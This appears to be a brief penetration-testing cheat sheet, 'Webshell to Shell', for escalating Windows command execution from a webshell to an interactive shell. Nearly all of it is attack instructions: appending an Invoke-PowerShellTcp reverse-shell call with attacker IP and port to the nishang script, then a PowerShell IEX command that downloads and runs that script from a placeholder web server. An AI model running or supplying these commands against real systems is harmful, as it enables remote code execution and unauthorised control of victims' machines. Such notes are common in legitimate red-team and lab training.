 # Webshell to Shell

## Windows

Got command execution through webshell? Use nishang Invoke-PowerShellTcp.ps1 to get a reverse shell:

```bash
#path:
/opt/nishang/Shells/Invoke-PowerShellTcp.ps1

#Add the following line at the end of the file:
Invoke-PowerShellTcp -Reverse -IPAddress $IPADDRESS -Port $PORT

#Use python HTTPServer and use IEX to upload and execute the file:
powershell "IEX(New-Object Net.WebClient).downloadString('http://XX.XX/file.ps1')"

```
